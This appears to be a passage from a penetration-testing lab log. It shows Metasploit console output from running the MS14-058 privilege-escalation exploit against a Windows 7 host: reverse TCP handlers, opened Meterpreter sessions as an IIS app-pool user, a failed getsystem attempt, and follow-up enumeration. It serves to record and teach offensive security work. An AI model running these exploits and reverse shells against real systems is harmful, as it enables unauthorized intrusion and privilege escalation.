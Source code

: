     Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    msf exploit(ms14_058_track_popup_menu) > run
    
    [*] Started reverse TCP handler on 192.168.0.99:5555 
    [*] Launching notepad to host the exploit...
    [+] Process 912 launched.
    [*] Reflectively injecting the exploit DLL into 912...
    [*] Injecting exploit into 912...
    [*] Exploit injected. Injecting payload into 912...
    [*] Payload injected. Executing exploit...
    [*] Sending stage (179267 bytes) to 192.168.0.102
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Meterpreter session 20 opened (192.168.0.99:5555 -> 192.168.0.102:49162) at 2018-07-26 23:47:00 -0400
    
    meterpreter > getuid
    Server username: IIS APPPOOL\MyFirstSite
    meterpreter > getsystem
    [-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)
    meterpreter > background
    [*] Backgrounding session 20...
    msf exploit(ms14_058_track_popup_menu) > sessions
    
    Active sessions
    ===============
    
      Id  Type                     Information                         Connection
      --  ----                     -----------                         ----------
      17  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49159 (192.168.0.102)
      18  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:5555 -> 192.168.0.102:49160 (192.168.0.102)
      19  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:5555 -> 192.168.0.102:49161 (192.168.0.102)
      20  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:5555 -> 192.168.0.102:49162 (192.168.0.102)
    
    msf exploit(ms14_058_track_popup_menu) > sessions 20
    [*] Starting interaction with 20...
    
    meterpreter > getuid
    Server username: IIS APPPOOL\MyFirstSite

Failed to work @ 14:22. 

OK, more enumeration.

    meterpreter > sysinfo
    Computer        : IE11WIN7
    OS              : Windows 7 (Build 7601, Service Pack 1).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows
